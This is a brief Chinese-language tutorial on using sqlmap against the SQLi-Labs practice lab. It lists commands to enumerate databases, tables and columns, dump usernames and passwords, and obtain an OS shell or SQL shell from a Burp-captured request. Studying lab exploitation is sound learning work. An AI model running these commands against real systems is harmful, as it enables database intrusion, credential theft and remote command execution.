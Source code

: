 ## 爆所有库

这边需要手工找到注入点

```
python sqlmap.py -u "http://127.0.0.1/Sqli_Edited_Version-master/Less-1/?id=1" --dbs
```



## 爆表名

这边我们爆表名**security**

```
python sqlmap.py -u "http://127.0.0.1/Sqli_Edited_Version-master/Less-1/?id=1" -D security --tables
```



## 爆字段名

```
python sqlmap.py -u "http://127.0.0.1/Sqli_Edited_Version-master/Less-1/?id=1" -D security -T users --columns
```



## 爆字段内容

```
python sqlmap.py -u "http://127.0.0.1/Sqli_Edited_Version-master/Less-1/?id=1" -D security -T users -C id,username,password --dump


http://10.128.2.21/
```





## SQL-Shell

先传参bp抓包，抓到包后右键copy file保存文件

```
sqlmap -r file.txt --os-shell
sqlmap -r file.txt --sql-shell		//都可以
```

